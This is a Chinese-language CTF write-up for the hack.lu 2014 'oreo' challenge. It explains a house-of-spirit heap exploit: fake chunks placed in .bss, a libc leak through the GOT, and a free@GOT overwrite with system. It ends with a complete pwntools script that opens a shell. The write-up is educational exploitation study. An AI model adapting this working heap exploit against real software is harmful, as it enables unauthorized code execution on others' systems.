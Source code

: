 ```yaml
---
title: hack.lu ctf 2014 oreo
categories:
  - pwn
tags: null
published: true
---
```


# Introduction

学习 [house_of_spirit](https://github.com/shellphish/how2heap/blob/master/house_of_spirit.c)

**[oreo](https://github.com/0x3f97/pwn/blob/master/hack-lu-ctf-2014-oreo/oreo)**: 
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped

{% highlight bash %}
checksec oreo

    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

{% endhighlight %}

程序有5个主要函数：

1）添加，分配固定大小的堆内存，输入 Rifle name 时有 0x19 字节的溢出。

2）打印，输出堆内存里的值。

3）删除，在后续的添加中当前的 chunk 地址会存放在新的 chunk 的末尾四个字节处，free 当前 chunk 后继续 free 当前 chunk 的末尾四个字节指向的地址。

4）写入，在指定的地址写入上限 0x80 字节长度的值，指定的地址存放在全局指针变量中。

5）输出添加次数和删除次数两个全局变量的值，还打印全局指针变量指向地址的值。

# Leak Libc

要触发漏洞需要足够的空间来伪造 chunk，而程序每个函数的可影响的栈空间大小都不足以伪造出两个相邻 chunk。在经过一番观察后发现程序的 bss 段可以用来伪造两个相邻 chunk，添加 0x41 次 rifle 使得添加次数全局变量的值为 0x41，伪造了第一个 chunk 头，再通过第4个函数写入下个 chunk 的 chunk size。

```
gdb-peda$ x/32xw 0x804a2a0
0x804a2a0:	0x00000000	0x00000041	0x0804a2c0	0x00000000	-> chunk1
0x804a2b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2e0:	0x00000000	0x00001234	0x0000000a	0x00000000	-> chunk2
0x804a2f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a300:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a310:	0x00000000	0x00000000	0x00000000	0x00000000
```

而利用添加函数输入 rifle name 的值可以设定 chunk 的最后四个字节为伪造的 chunk 地址。

```
0x9b39410:	0x00000000	0x00000041	0x00003034	0x00000000
0x9b39420:	0x00000000	0x00000000	0x00000000	0x00000000
0x9b39430:	0x00000000	0x00000000	0x00000000	0x00000000
0x9b39440:	0x00000000	0x00000000	0x00000000	0x0804a2a8	-> fake chunk address
```

成功将其 free 后，在调用添加函数获得 fake chunk 的控制，进而改写全局变量指针的值从而实现任意地址写。

配合程序自身函数可以将 got 表中的值打印出来

```
payload = p32(0x804a288)
add("\n", payload+"\n")

payload = p32(sscanf_got)
lmsg(payload + "\n")

show()
```

# Exploit

既然可以写任意地址，那么写函数 got 表为 system 地址即可，[exp](https://github.com/0x3f97/pwn/blob/master/hack-lu-ctf-2014-oreo/exp.py) 如下：

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./oreo"

p = process(elf)

free_got = 0x804a238
puts_plt = 0x80484b0
sscanf_got = 0x804a258
free_off = 0x71470
system_off = 0x3ada0
bin_sh_off = 0x15b9ab
fgets_off = 0x5e150

def add(n, des):
    p.sendline("1")
    p.send(n)
    p.send(des)

def show():
    p.sendline("2")

def order():
    p.sendline("3")

def lmsg(s):
    p.sendline("4")
    p.send(s)

def status():
    p.sendline("5")


for i in range(0x40):
    add(str(i)+"\n", str(i)+"\n")

payload = p8(0)*0x1b
payload += p32(0x804a2a8)
add(payload+"\n", "40\n")

payload = p8(0)*0x24
payload += p32(0x1234)
lmsg(payload+"\n")

order()

payload = p32(0x804a288)
add("\n", payload+"\n")

#gdb.attach(p)
payload = p32(sscanf_got)
payload += p32(0)*6
payload += p32(0x41)
payload += p32(0x804a288)
lmsg(payload+"\n")

show()
p.recvuntil("Description: ")
libc_base = u32(p.recv(4).strip().ljust(4, "\x00"))-0x5c4c0
log.info("libc_base: " + hex(libc_base))

system_addr = libc_base + system_off
bin_sh_addr = libc_base + bin_sh_off
fgets_addr = libc_base + fgets_off

payload = p32(bin_sh_addr)
payload += p32(0)*6
payload += p32(0x41)
payload += p32(free_got)
lmsg(payload+"\n")

payload = p32(system_addr)
payload += p32(fgets_addr)
lmsg(payload+"\n")

#gdb.attach(p)
order()

p.interactive()
```